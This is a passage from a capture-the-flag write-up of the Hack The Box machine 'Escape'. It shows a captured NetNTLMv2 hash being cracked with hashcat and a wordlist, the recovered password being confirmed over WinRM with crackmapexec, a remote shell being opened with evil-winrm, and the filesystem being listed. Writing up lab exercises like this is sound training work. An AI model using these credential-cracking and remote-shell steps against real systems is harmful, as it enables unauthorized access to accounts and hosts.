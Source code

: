 We can now hop to my host OS and use `hashcat` to crack the `NTLMv2` hash.

```
PS C:\Tools\Hashcat> .\hashcat.exe .\sql_svc.hash ..\Wordlists\rockyou.txt
.
.
5600 | NetNTLMv2 | Network Protocol
.
.
SQL_SVC::sequel:aaaaaaaaaaaaaaaa:4ec19fdc5c4ba3ab5ea3774187b5f385:0101000000000000807a669c709dd901cc7f5af4f95c760f0000000001001000500058006e005200690043004100740003001000500058006e0052006900430041007400020010006d0074006100740058004b0069005800040010006d0074006100740058004b006900580007000800807a669c709dd90106000400020000000800300030000000000000000000000000300000115adc3d0fc18217cf60cf08c80ea3442c0cc5e81825de469ed7f9eb469f94200a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00380038000000000000000000:REGGIE1234ronnie
```

We have now a new set of credentials: `sql_svc:REGGIE1234ronnie`.

Since we saw `WINRM` ports open we can confirm that we can login as user `sql_svc` via `WINRM` in crackmapexec.

```
➜  Escape crackmapexec winrm sequel.htb -u 'sql_svc' -p 'REGGIE1234ronnie' 
SMB         sequel.htb      5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:sequel.htb)
HTTP        sequel.htb      5985   DC               [*] http://sequel.htb:5985/wsman
WINRM       sequel.htb      5985   DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie (Pwn3d!)
```

## Shell as sql_svc

We confirmed that we indeed can log in via `WINRM` as user `sql_svc`. Let's use `evil-winrm` to get a shell.

```
➜  Escape evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sql_svc\Documents>
```

We still do not have access to `user.txt` flag so let's enumerate the filesystem.

```
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/1/2023   8:15 PM                PerfLogs
d-r---         2/6/2023  12:08 PM                Program Files
d-----       11/19/2022   3:51 AM                Program Files (x86)
d-----       11/19/2022   3:51 AM                Public
d-----         2/1/2023   1:02 PM                SQLServer
d-r---         2/1/2023   1:55 PM                Users
```